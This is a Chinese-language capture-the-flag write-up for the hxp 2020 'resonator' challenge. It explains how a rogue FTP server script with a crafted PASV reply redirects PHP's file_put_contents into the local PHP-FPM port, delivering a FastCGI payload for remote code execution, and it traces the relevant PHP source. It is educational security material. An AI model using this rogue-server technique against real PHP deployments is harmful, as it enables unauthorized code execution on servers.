 > 原文链接: https://www.anquanke.com//post/id/226750 


# hxp2020的resonator题解分析


                                阅读量   
                                **148735**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t01f4801d3c7c2839be.jpg)](https://p5.ssl.qhimg.com/t01f4801d3c7c2839be.jpg)



[https://2020.ctf.link/internal/challenge/cb926472-66b2-4212-af86-b4aaf675d6ea/](https://2020.ctf.link/internal/challenge/cb926472-66b2-4212-af86-b4aaf675d6ea/)

<a class="reference-link" name="%E8%BF%99%E4%B8%AA%E9%A2%98%E6%88%91%E6%84%9F%E8%A7%89%E5%BE%88%E6%9C%89%E6%84%8F%E6%80%9D%EF%BC%8C%E7%BD%91%E4%B8%8A%E6%B2%A1%E6%9C%89%E6%89%BE%E5%88%B0wp%EF%BC%8C%E6%89%80%E4%BB%A5%E6%9D%A5%E5%86%99%E4%B8%80%E4%B8%8Bwp%EF%BC%8C%E9%A2%98%E7%9B%AE%E7%BB%99%E4%BA%86%E7%8E%AF%E5%A2%83%EF%BC%8C%E5%8F%AF%E4%BB%A5%E6%B3%A8%E6%84%8F%E5%88%B0%E7%BB%99%E7%9A%84www.conf%E9%87%8C%E7%9A%84fpm%E6%98%AF%E7%9B%91%E5%90%AC%E7%9A%849000%E7%AB%AF%E5%8F%A3%EF%BC%8C%E4%B9%9F%E5%B0%B1%E6%98%AF%E5%92%8C%E4%B9%8B%E5%89%8D%E9%81%87%E5%88%B0%E7%9A%84%E4%B8%80%E4%BA%9Bfastcgi%E7%9A%84%E6%94%BB%E5%87%BB%E6%9C%89%E5%85%B3"></a>这个题我感觉很有意思，网上没有找到wp，所以来写一下wp，题目给了环境，可以注意到给的www.conf里的fpm是监听的9000端口，也就是和之前遇到的一些fastcgi的攻击有关

[![](https://p2.ssl.qhimg.com/t0143533af4ee4b2a20.png)](https://p2.ssl.qhimg.com/t0143533af4ee4b2a20.png)

题目也非常简单，代码就5行，就`file_put_contents`和`file_get_contents`，这个有什么办法可以rce吗？仅仅从php的代码来看，看不出什么漏洞，那就只有看看php的源代码了

```
&lt;?php
$file = $_GET['file'] ?? '/tmp/file';
$data = $_GET['data'] ?? ':)';
file_put_contents($file, $data);
echo file_get_contents($file);
```



## 解题

<a class="reference-link" name="%E8%BF%99%E9%87%8C%E5%85%88%E7%BB%99%E5%87%BApoc%E5%92%8C%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95%EF%BC%8C%E7%AC%AC%E4%B8%80%E6%AD%A5%E5%85%88%E7%94%9F%E6%88%90fastcgi%E7%9A%84%E6%94%BB%E5%87%BBpoc%EF%BC%9A"></a>这里先给出poc和利用方法，第一步先生成fastcgi的攻击poc：

[![](https://p0.ssl.qhimg.com/t01391d7d1aa7690aa6.png)](https://p0.ssl.qhimg.com/t01391d7d1aa7690aa6.png)

<a class="reference-link" name="%E7%AC%AC%E4%BA%8C%E6%AD%A5%E5%9C%A8%E8%87%AA%E5%B7%B1%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E9%9D%A2%E6%90%AD%E5%A5%BD%E6%81%B6%E6%84%8F%E7%9A%84ftp%E6%9C%8D%E5%8A%A1%E5%B9%B6%E4%B8%94%E7%9B%91%E5%90%AC2333%E7%AB%AF%E5%8F%A3%EF%BC%9A"></a>第二步在自己服务器上面搭好恶意的ftp服务并且监听2333端口：

```
import socket

host = '0.0.0.0'
port = 23
sk = socket.socket()
sk.bind((host, port))
sk.listen(5)

conn, address = sk.accept()
conn.send("200 \n")
print '200'
print conn.recv(20)

conn.send("200 \n")
print '200'
print conn.recv(20)

conn.send("200 \n")
print '200'
print conn.recv(20)

conn.send("300 \n")
print '300'
print conn.recv(20)

conn.send("200 \n")
print '200'
print conn.recv(20)
print "ck"
conn.send("227 127,0,0,1,8,6952\n")
print '200'
print conn.recv(20)

conn.send("150 \n")
print '150'
print conn.recv(20)
conn.close()
exit()
```

[![](https://p2.ssl.qhimg.com/t0174555ed28e7fd867.png)](https://p2.ssl.qhimg.com/t0174555ed28e7fd867.png)

[![](https://p4.ssl.qhimg.com/t01ab99fa87343ddcb8.png)](https://p4.ssl.qhimg.com/t01ab99fa87343ddcb8.png)

<a class="reference-link" name="%E7%AC%AC%E4%B8%89%E6%AD%A5%E5%8F%91%E9%80%81%E6%95%B4%E4%BD%93%E7%9A%84payload%E5%BE%97%E5%88%B0flag%EF%BC%8C%E8%BF%99%E9%87%8C%E7%9A%84payload%E6%98%AFgopherus%E7%94%9F%E6%88%90%E7%9A%84poc%E4%BB%8Egopher://127.0.0.1:9000/_%E4%B9%8B%E5%90%8E%E5%BC%80%E5%A7%8B%E5%8F%96%E7%9A%84%EF%BC%9A"></a>第三步发送整体的payload得到flag，这里的payload是gopherus生成的poc从gopher://127.0.0.1:9000/_之后开始取的：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e468d19e7c09b088.png)

[![](https://p4.ssl.qhimg.com/t01c2c6693493debd07.png)](https://p4.ssl.qhimg.com/t01c2c6693493debd07.png)



## 分析做题的过程和思路

<a class="reference-link" name="%E7%8E%B0%E5%9C%A8%E6%9D%A5%E5%88%86%E6%9E%90%E4%B8%80%E4%B8%8Bphp%E7%9A%84%E6%BA%90%E7%A0%81%E5%90%A7%EF%BC%8C%E8%B0%83%E8%AF%95php%E7%9A%84c%E6%BA%90%E7%A0%81%E8%BF%99%E4%B8%AA%E5%BA%94%E8%AF%A5%E9%83%BD%E6%B2%A1%E6%9C%89%E9%97%AE%E9%A2%98%EF%BC%8C%E7%9B%B4%E6%8E%A5%E4%BB%8Eftp%E5%8D%8F%E8%AE%AE%E8%A7%A3%E6%9E%90%E7%9A%84%E5%9C%B0%E6%96%B9%E5%BC%80%E5%A7%8B%EF%BC%8C%E6%88%91%E9%80%89%E6%8B%A9%E7%9A%84%E6%98%AF%E5%9C%A8window%E4%B8%8B%E9%9D%A2%E9%99%84%E5%8A%A0%E5%88%B0php%E7%9A%84http%E6%9C%8D%E5%8A%A1%EF%BC%8C%E4%B8%8B%E9%9D%A2%E6%98%AFindex.php%E7%9A%84%E4%BB%A3%E7%A0%81"></a>现在来分析一下php的源码吧，调试php的c源码这个应该都没有问题，直接从ftp协议解析的地方开始，我选择的是在window下面附加到php的http服务，下面是index.php的代码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t015a383e7014f5a401.png)

<a class="reference-link" name="%E7%84%B6%E5%90%8E%E5%88%86%E6%9E%90%E8%B5%B0%E5%88%B0ftp%E5%8D%8F%E8%AE%AE%E6%97%B6%E5%8F%AF%E4%BB%A5%E5%B9%B2%E4%B8%80%E4%BA%9B%E4%BB%80%E4%B9%88%EF%BC%8C%E9%A6%96%E5%85%88%E6%96%AD%E7%82%B9%E5%9C%A8%E8%BF%9E%E6%8E%A5tcp%E4%B9%8B%E5%90%8E%EF%BC%8C%E5%9C%A8tcp%E8%BF%9E%E6%8E%A5%E6%88%90%E5%8A%9F%E5%90%8E%EF%BC%8C%E4%BB%96%E4%BC%9A%E5%BE%97%E5%88%B0%E6%9C%8D%E5%8A%A1%E7%AB%AF%E7%9A%84%E8%BF%94%E5%9B%9E%E5%86%85%E5%AE%B9%EF%BC%8C%E5%A6%82%E6%9E%9C%E5%86%85%E5%AE%B9%E6%98%AF200%E5%88%B0299%E7%9B%B4%E6%8E%A5%E5%B0%B1%E4%B8%8D%E4%BC%9A%E6%8A%A5%E9%94%99%EF%BC%8C%E6%89%80%E4%BB%A5%E6%88%91%E4%BB%AC%E6%81%B6%E6%84%8F%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%B0%B1%E8%BF%94%E5%9B%9E%E6%BB%A1%E8%B6%B3%E4%BB%96%E7%9A%84%E6%9D%A1%E4%BB%B6%E7%9A%84%E5%80%BC%E5%B0%B1%E8%A1%8C"></a>然后分析走到ftp协议时可以干一些什么，首先断点在连接tcp之后，在tcp连接成功后，他会得到服务端的返回内容，如果内容是200到299直接就不会报错，所以我们恶意服务器就返回满足他的条件的值就行

[![](https://p2.ssl.qhimg.com/t01f4bcf8bb91a9e3d7.png)](https://p2.ssl.qhimg.com/t01f4bcf8bb91a9e3d7.png)

<a class="reference-link" name="%E7%BB%A7%E7%BB%AD%E8%B7%9F%E8%B8%AA%E5%8F%91%E7%8E%B0%E8%BF%99%E9%87%8C%E5%BE%97%E5%88%B0%E7%9A%84%E8%BF%94%E5%9B%9E%E5%86%85%E5%AE%B9"></a>继续跟踪发现这里得到的返回内容

[![](https://p0.ssl.qhimg.com/t0150cf0df0753c24dd.png)](https://p0.ssl.qhimg.com/t0150cf0df0753c24dd.png)

这里也就是为什么要是`200 \n`了，第4个字符必须得是空格才会结束不然就一直循环了

[![](https://p0.ssl.qhimg.com/t0127a57a7609a3baa8.png)](https://p0.ssl.qhimg.com/t0127a57a7609a3baa8.png)

<a class="reference-link" name="%E7%84%B6%E5%90%8E%E4%B9%9F%E5%B0%B1%E5%88%B0%E4%BA%86%E7%AC%AC%E4%BA%8C%E4%B8%AA%E5%88%A4%E6%96%AD%EF%BC%8C%E8%BF%99%E9%87%8C%E5%88%A4%E6%96%AD%E6%98%AF%E5%90%A6%E4%BC%9A%E6%9C%89%E5%AF%86%E7%A0%81%EF%BC%8C%E4%BD%86%E6%98%AF%E4%B9%9F%E5%BF%85%E9%A1%BB%E6%98%AF200%E5%88%B0299%EF%BC%8C%E6%89%80%E4%BB%A5%E6%88%91%E4%BB%AC%E4%B8%BA200%E4%B9%9F%E5%8F%AF%E4%BB%A5%E8%BF%87"></a>然后也就到了第二个判断，这里判断是否会有密码，但是也必须是200到299，所以我们为200也可以过

[![](https://p3.ssl.qhimg.com/t013fcef4bb1defb4d7.png)](https://p3.ssl.qhimg.com/t013fcef4bb1defb4d7.png)

[![](https://p3.ssl.qhimg.com/t01115b7daabd524865.png)](https://p3.ssl.qhimg.com/t01115b7daabd524865.png)

<a class="reference-link" name="%E7%84%B6%E5%90%8E%E5%B0%B1%E5%88%B0%E4%BA%86%E7%AC%AC%E4%B8%89%E4%B8%AA%E5%88%A4%E6%96%AD%EF%BC%8C%E4%B8%BA200%E4%B9%9F%E5%8F%AF%E4%BB%A5%E8%BF%87"></a>然后就到了第三个判断，为200也可以过

[![](https://p3.ssl.qhimg.com/t012118a576e6e235a8.png)](https://p3.ssl.qhimg.com/t012118a576e6e235a8.png)

第四个判断就得300了，因为`allow_overwrite`不为真

[![](https://p4.ssl.qhimg.com/t01357e44cce9abe124.png)](https://p4.ssl.qhimg.com/t01357e44cce9abe124.png)

[![](https://p4.ssl.qhimg.com/t01bc28c739847ff234.png)](https://p4.ssl.qhimg.com/t01bc28c739847ff234.png)

<a class="reference-link" name="%E5%B0%B1%E5%88%B0%E4%BA%86%E7%AC%AC%E4%BA%94%E4%B8%AA%E5%88%A4%E6%96%AD%E4%BA%86%EF%BC%8C%E8%BF%99%E6%AC%A1%E5%B0%B1%E5%BE%97%E4%B8%BA200%EF%BC%8C%E4%B8%8D%E7%84%B6%E5%B0%B1%E4%BC%9A%E8%BF%9B%E5%85%A5ipv6%E7%9A%84%E8%A7%A3%E6%9E%90"></a>就到了第五个判断了，这次就得为200，不然就会进入ipv6的解析

[![](https://p5.ssl.qhimg.com/t0140c0581a9e7bf699.png)](https://p5.ssl.qhimg.com/t0140c0581a9e7bf699.png)

<a class="reference-link" name="%E7%AC%AC%E5%85%AD%E4%B8%AA%E5%88%A4%E6%96%AD%E4%BA%86%EF%BC%8C%E8%BF%99%E6%AC%A1%E5%B0%B1%E5%BE%97%E4%B8%BA227%E5%B9%B6%E4%B8%94%E5%90%8E%E9%9D%A2%E5%BE%97%E6%9C%89%E7%AC%A6%E5%90%88%E6%9D%A1%E4%BB%B6%E7%9A%84%E5%AD%97%E7%AC%A6%E4%B8%B2%EF%BC%8C%E5%9B%A0%E4%B8%BA%E4%BB%96%E4%BC%9A%E6%8A%8A%E5%90%8E%E9%9D%A2%E7%9A%84%E5%AD%97%E7%AC%A6%E4%B8%B2%E8%A7%A3%E6%9E%90%E4%B8%BAip%E5%92%8C%E7%AB%AF%E5%8F%A3"></a>第六个判断了，这次就得为227并且后面得有符合条件的字符串，因为他会把后面的字符串解析为ip和端口

[![](https://p1.ssl.qhimg.com/t01b06a4d9f7752dc4a.png)](https://p1.ssl.qhimg.com/t01b06a4d9f7752dc4a.png)

这也是为什么poc里面的是`,`为ip地址的分隔，先解析ip，得到ip为`127.0.0.1`

[![](https://p2.ssl.qhimg.com/t01336ef8363084764e.png)](https://p2.ssl.qhimg.com/t01336ef8363084764e.png)

[![](https://p1.ssl.qhimg.com/t01bbeb5d295a0da810.png)](https://p1.ssl.qhimg.com/t01bbeb5d295a0da810.png)

<a class="reference-link" name="%E7%BB%8F%E8%BF%87%E6%B5%8B%E8%AF%95%E8%AE%A1%E7%AE%97%E5%8F%91%E7%8E%B0%E4%B8%BA6952%E5%90%8E%E5%B0%B1%E4%BC%9A%E5%BE%97%E5%88%B09000%E7%9A%84%E7%AB%AF%E5%8F%A3"></a>经过测试计算发现为6952后就会得到9000的端口

[![](https://p3.ssl.qhimg.com/t019cee40b3f5a8735b.png)](https://p3.ssl.qhimg.com/t019cee40b3f5a8735b.png)

<a class="reference-link" name="%E7%84%B6%E5%90%8E%E5%B0%B1%E4%BC%9A%E4%BB%8E%E8%A7%A3%E6%9E%90%E7%9A%84ip%E5%92%8C%E7%AB%AF%E5%8F%A3%E8%BF%9B%E8%A1%8C%E5%86%99%E5%85%A5%E6%95%B0%E6%8D%AE"></a>然后就会从解析的ip和端口进行写入数据

[![](https://p2.ssl.qhimg.com/t0197d7490409bf153c.png)](https://p2.ssl.qhimg.com/t0197d7490409bf153c.png)

<a class="reference-link" name="%E6%89%80%E4%BB%A5%E6%88%91%E4%BB%AC%E5%9C%A8window%E4%B8%8A%E9%9D%A2%E7%9B%91%E5%90%AC9000%E7%AB%AF%E5%8F%A3"></a>所以我们在window上面监听9000端口

[![](https://p3.ssl.qhimg.com/t0129857a76928335df.png)](https://p3.ssl.qhimg.com/t0129857a76928335df.png)

<a class="reference-link" name="%E7%84%B6%E5%90%8E%E7%BB%A7%E7%BB%AD%E6%89%A7%E8%A1%8C%EF%BC%8C%E5%8F%91%E7%8E%B0%E6%88%90%E5%8A%9F%E5%BB%BA%E7%AB%8B%E4%BA%86socket%E8%BF%9E%E6%8E%A5"></a>然后继续执行，发现成功建立了socket连接

[![](https://p0.ssl.qhimg.com/t0199820ac15756d3d4.png)](https://p0.ssl.qhimg.com/t0199820ac15756d3d4.png)

[![](https://p3.ssl.qhimg.com/t0175a6c9a8f7f22285.png)](https://p3.ssl.qhimg.com/t0175a6c9a8f7f22285.png)

<a class="reference-link" name="%E7%84%B6%E5%90%8E%E5%88%B0%E4%BA%86%E7%AC%AC%E4%B8%83%E4%B8%AA%E5%88%A4%E6%96%AD%EF%BC%8C%E7%9B%B4%E6%8E%A5%E4%B8%BA150%E5%B0%B1%E5%8F%AF%E4%BB%A5%E7%BB%A7%E7%BB%AD%E6%89%A7%E8%A1%8C"></a>然后到了第七个判断，直接为150就可以继续执行

[![](https://p4.ssl.qhimg.com/t01f4472b9703374347.png)](https://p4.ssl.qhimg.com/t01f4472b9703374347.png)

然后就会把写入的句柄交到新的tcp连接上面，剩下的就是一气呵成了，然后就可以看到我们收到的数据和`file_put_contents`里面写入的一样

[![](https://p4.ssl.qhimg.com/t01b4a2d8f016e53ed6.png)](https://p4.ssl.qhimg.com/t01b4a2d8f016e53ed6.png)

<a class="reference-link" name="%E6%80%BB%E7%BB%93%EF%BC%9A%E6%84%9F%E8%A7%89%E4%BD%9C%E4%B8%BA%E4%B8%80%E4%B8%AAweb%E6%89%8B%E8%BF%98%E6%98%AF%E5%BE%97%E5%A4%9A%E4%BA%86%E8%A7%A3%E4%B8%80%E4%B8%8B%E5%85%B3%E4%BA%8E%E8%AF%AD%E8%A8%80%E5%BA%95%E5%B1%82%E7%9A%84%E6%9E%84%E9%80%A0%EF%BC%8C%E8%BF%99%E6%A0%B7%E5%8F%AF%E8%83%BD%E5%B0%B1%E4%BC%9A%E5%8F%91%E7%8E%B0%E6%9B%B4%E5%A4%9A%E7%9A%84%E7%89%B9%E6%80%A7%E5%92%8C%E6%8A%80%E5%B7%A7%E3%80%82"></a>总结：感觉作为一个web手还是得多了解一下关于语言底层的构造，这样可能就会发现更多的特性和技巧。
